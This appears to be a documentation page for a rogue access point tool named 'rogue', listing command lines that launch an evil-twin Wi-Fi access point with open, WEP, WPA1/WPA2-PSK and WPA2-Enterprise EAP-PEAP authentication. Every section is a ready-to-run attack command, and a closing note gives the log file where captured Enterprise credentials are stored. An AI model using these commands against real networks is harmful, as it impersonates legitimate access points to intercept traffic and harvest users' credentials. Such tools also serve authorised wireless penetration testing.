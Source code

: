 Configuring evil-twin AP with different authentication methods
=======================================

Open Authentication
^^^^^^^^^^^^^^^^^^^

```bash
sudo python3 /opt/rogue/rogue.py -i wlan0 --auth open --internet --preset-profile wifi4 --channel-randomiser
```

WEP Authentication
^^^^^^^^^^^^^^^^^^

```bash
sudo python3 /opt/rogue/rogue.py -i wlan0 --auth wep --wep-key-version 0 --wep-key 4141414141 --preset-profile wifi4 --channel-randomiser
```

WPA-PSK Authentication
^^^^^^^^^^^^^^^^^^^^^^^

WPA1-PSK Authentication
-----------------------

```bash
sudo python3 /opt/rogue/rogue.py -i wlan0 --auth wpa-personal --wpa 1 --wpa-passphrase "test test" --preset-profile wifi4 --channel-randomiser
```

WPA2-PSK Authentication
-----------------------

```bash
sudo python3 /opt/rogue/rogue.py -i wlan0 --auth wpa-personal --wpa 2 --wpa-passphrase "test test" --preset-profile wifi4 --channel-randomiser
```

WPA2-Enterprise Authentication
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

EAP-PEAP/MSCHAP Authentication
------------------------------

```bash
sudo python3 /opt/rogue/rogue.py -i wlan0 --auth wpa-enterprise --preset-profile wifi4 --channel-randomiser --default-eap peap -E all
```

**Note:** Captured credentials will be stored in `/opt/rogue/logs/freeradius-server-wpe.log`. 
